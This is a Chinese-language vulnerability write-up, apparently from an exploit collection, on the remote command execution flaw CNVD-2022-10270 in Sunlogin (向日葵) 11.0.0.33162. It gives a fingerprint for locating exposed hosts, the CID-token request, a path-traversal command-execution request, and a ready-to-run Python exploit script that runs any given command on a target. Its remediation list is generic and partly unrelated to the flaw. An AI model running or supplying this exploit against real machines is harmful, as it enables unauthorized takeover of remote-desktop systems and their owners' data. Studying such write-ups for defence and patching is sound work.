 # 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## 网络测绘

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![image-20220524135408561](images/202205241354598.png)

发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```

![image-20220524135428094](images/202205241354132.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![](images/202205241354108.png)

## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```

